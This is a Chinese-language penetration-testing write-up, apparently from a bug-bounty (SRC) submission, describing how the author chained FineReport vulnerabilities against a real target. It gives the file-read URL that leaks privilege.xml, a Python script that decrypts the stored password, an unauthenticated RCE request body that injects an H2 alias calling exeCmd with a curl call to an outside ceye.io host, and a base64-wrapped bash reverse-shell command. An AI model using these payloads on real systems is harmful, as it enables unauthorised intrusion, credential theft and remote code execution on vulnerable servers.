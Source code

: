 ```yaml
---
description: 首发于先知社区：
---
```


# 记一次帆软组合拳getshell

## 前言

看到某区发现帆软的组合漏洞文章，突然想起自己最近也挖到类似的，拿出来分享一下。

## 资产发现

首先是信息收集子域名，谷歌语句直接`site:xxx.com -www`,一个登录口网站吸引了我的注意力。

![image](../img/1.png)

我点击电信、网通、自动的时候，发现域名跳转到了真实IP

![image](../img/2.png)

这样，就可以对真实IP进行端口扫描->目录扫描一把梭了，发现在8080端口发现ReportServe部署页面。

http://xxx.xxx.xxx.xxxx:8080/ReportServer

![image](../img/3.png)

接着就对帆软的历史漏洞进行测试了。

## 任意文件读取获取密码解密登录后台

`view-source:http://xxx.xxx.xxx.xxx:8080/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml`

刚开始的时候是空白页，查看源代码才发现信息

![image](../img/4.png)

可以看到用户为posun,密码需要解密一下

解密脚本：

```py
cipher = '___0022007c0039003b005100e3' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

解密得到123456，问题是拿到哪里登录呢，突然想到刚才有个数据决策系统，拿去登录刚才的数据决策系统.

![image](../img/5.png)

成功进入后台，然而高兴的太早了,因为该站长注册码到期了，且没有什么敏感信息。SRC也是反馈危害性不大，不能收，没办法，只能另寻途径了。

## 帆软报表FineRePort未授权远程命令执行漏洞

看到去年的帆软还存在个未授权命令执行漏洞，搜了一下poc,发现在github有,

* https://github.com/ffffffff0x/1earn/blob/0583f77f62d63f93b1c519efc57327003feec4ed/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md#%E5%B8%86%E8%BD%AF
* 影响版本:
  * 帆软报表 FineRePortv8.0
  * 帆软报表 FineRePortv9.0

```
xxx.com/WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin

这个接口 打开 点查询 burp拦截数据包 替换post的内容

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://uki7s7.ceye.io');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```

便操作了一下,前提是需要得知用户名

漏洞地址：`http://xxx.xxx.xxx.xxx:8080/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=posun`,这里需要把username改为刚刚的用户名。

![image](../img/6.png)

点击查询抓包改包，这里先是简单的ceye回显，改包后一直forward

![image](../img/7.png)

![image](../img/8.png)

可以看到，我的ceye收到回显，说明该漏洞是存在的，为了证明危害性，我后面继续了反弹shell操作

```
bash -c {echo,base64编码}|{base64,-d}|{bash,-i}
```

VPS监听7777端口，如图下 反弹shell成功

![image](../img/9.png)

备注:刚开始对面审核SRC愣是死活复现不出来,手把手教学了,这里有几个问题注意下,查询不能太频繁 容易并发数满,需要等一段时间,我后面第二天并发数才清空.

## 总结

* 多观察细节,比如刚刚的真实IP就冒出来了
* 遇到危害性不大漏洞不要慌,留着还能组合其它的漏洞.
